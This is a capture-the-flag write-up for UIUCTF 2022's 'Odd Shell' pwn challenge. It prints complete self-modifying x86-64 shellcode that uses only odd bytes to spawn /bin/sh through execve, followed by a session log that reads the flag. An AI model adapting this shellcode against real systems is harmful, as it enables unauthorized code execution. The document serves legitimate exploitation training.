 ```yaml
---
title: Writeup - Odd Shell (UIUCTF 2022)
date: 2022-08-04 00:00:00
tags: 
- writeup
- pwn
- uiuctf2022
---
```


# UIUCTF 2022 - Odd Shell Writeup
- Type - pwn
- Name - Odd Shell
- Points - 107

## Description
```markdown
O ho! You found me! I have a display of oddities available to you!

$ nc odd-shell.chal.uiuc.tf 1337

author: Surg
```

## Writeup
I decided to spawn a shell using the `syscall` approach (see the entry for `execve` in the [Linux System Call Table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) to see how I had to set registers). I used an [online x86/x64 assembler](https://defuse.ca/online-x86-assembler.htm#disassembly) to test my assembly commands and ensure they were all odd. Since some important instructions were only even, I took a dynamic approach, where I had the instructions change future instructions.

For example, if I wanted the instruction `xor rsi,rsi` to zero out the `rsi` register, the assembly would be `48 31 f6`. Since both `48` and `f6` were even, I modified them to odd instructions (`xor r13d,r14d`, which was `45 31 f5`), and then wrote instructions that added 3 to 45 and 1 to f6. This transformed `xor r13d,r14d` to `xor rsi,rsi`, then ran the instruction. I also stored the string `/bin/sh` at the beginning of the memory address provided for our shellcode, and copied that address from the `rdx` register. Register 15 (`r15`) was my main scratch register. 

Shellcode:
```assembly
### PUT "/bin/sh" AT BEGINNING OF INSTRUCTIONS ###
# move address for instruction start to r15
mov   r15,rdx

# create "nib/" (0x6d69612f) in rcx, then move to r15
mov   ecx,0x010d31b1
imul  ecx,ecx,0x69
add   ecx,0x7f
add   ecx,0x17
mov   DWORD PTR[r15],ecx

# shift r15 by 4 for next part of string
add   r15,3
add   r15,1

# create "\x00hs/" (0x0068732F) in rcx, then move to r15
mov   ecx,0x016973b5
sub   ecx,0x01010101
add   ecx,0x7b
mov   DWORD PTR[r15],ecx


### MOVE $rdx into $rdi ###
mov    r15,rdx
add    r15,0x3b
add    r15,0x1
add    DWORD PTR[r15],0x3
mov    r15d,r10d


### PUT 0 INTO $rsi ###
# add 3 to first part of XOR
mov    r15,rdx
add    r15,0x55
add    DWORD PTR[r15],0x3

# add 1 to third part of XOR
mov    r15,rdx
add    r15,0x57
add    DWORD PTR[r15],0x1

xor    r13d,r14d          # (45 31 f5) --> xor rsi,rsi (48 31 f6)


### PUT 0 INTO $rdx ###
# add 3 to first part of XOR
mov    r15,rdx
add    r15,0x75
add    r15,0x1
add    DWORD PTR[r15],0x3

# add 1 to third part of XOR
mov    r15,rdx
add    r15,0x77
add    r15,0x1
add    DWORD PTR[r15],0x1

xor    r9d,r10d          # (45 31 d1) --> xor rdx,rdx (48 31 d2)


### PUT 59 INTO $rax ###
# random instruction for offset
xor    r13,r13

# add 7 to first part of XOR
mov    r15,rdi
add    r15,0x7f
add    r15,0x1b
add    DWORD PTR[r15],0x7

# subtract 1 from third part of XOR
mov    r15,rdi
add    r15,0x7f
add    r15,0x1d
sub    DWORD PTR[r15],0x1

add    r9d,0x3b          # (41 83 c1 3b) --> add rax,0x3b (48 83 c0 3b)


### SYSCALL ###
syscall
```

I then put this shellcode into a Python script with pwntools ([odd.py](/static/uiuctf-oddshell/odd.py)) and ran it! Results:

```bash
$ python3 odd.py REMOTE
[+] Opening connection to odd-shell.chal.uiuc.tf on port 1337: Done
[*] Switching to interactive mode
Display your oddities:
$ whoami
user
$ cat /flag
uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}
$
[*] Closed connection to odd-shell.chal.uiuc.tf port 1337
```

**Flag:** `uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}`